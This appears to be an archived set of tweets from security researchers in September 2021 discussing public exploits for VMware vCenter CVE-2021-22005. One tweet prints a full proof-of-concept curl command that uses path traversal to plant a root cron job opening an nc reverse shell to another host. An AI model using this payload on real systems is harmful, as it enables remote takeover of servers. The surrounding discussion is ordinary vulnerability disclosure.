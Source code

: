 * https://github.com/Lagal1990/CVE-2021-30632

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>5</code></td>
<td>Retweets: <code>101</code></td>
<td>Favorites: <code>234</code></td>
</tr></table>

---

# wdormann
**https://twitter.com/wdormann/status/1442674943494397956 _at 2021-09-28, 02:18:04_**
<blockquote>
The exploit for CVE-2021-22005 is now fully public: https://t.co/4aX7lRkHeY
The PoC at the beginning of this thread is definitely something completely different, whatever the CVE IS, and doesn't require CEIP to be enabled.
Unclear if THAT one is being used in the wild now.
</blockquote>

* https://twitter.com/wvuuuuuuuuuuuuu/status/1442634215330390020

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>17</code></td>
<td>Favorites: <code>41</code></td>
</tr></table>

---

# wvuuuuuuuuuuuuu
**https://twitter.com/wvuuuuuuuuuuuuu/status/1442634215330390020 _at 2021-09-27, 23:36:14_**
<blockquote>
CVE-2021-22005: Exploitation in the wild confirmed. Unredacted RCE PoC against CEIP below.

curl -kv "https://172.16.57.2/analytics/telemetry/ph/api/hyper/send?_c=&amp;_i=/../../../../../../etc/cron.d/$RANDOM" -H Content-Type: -d "* * * * * root nc -e /bin/sh 172.16.57.1 4444" https://t.co/bwjMA21ifA
</blockquote>

<table><tr>